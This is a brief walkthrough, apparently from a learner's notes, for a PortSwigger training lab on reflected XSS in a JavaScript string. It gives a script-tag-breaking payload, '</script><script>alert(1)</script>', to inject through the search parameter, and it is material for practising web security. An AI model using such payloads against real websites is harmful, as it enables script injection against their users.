




>> platform portswigger
>>> ### Target -> Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped


----
**Where is vuln search parameter**
**Goal alert**

----

### Steps
1. Open the lab
2. inject xss payload 
3.   i'm already in script tag
4. so closed script tag and make new tag thank alert
```html
</script><script>alert(1)</script>
```
5.  hit the payload
6. than solve the lab.....
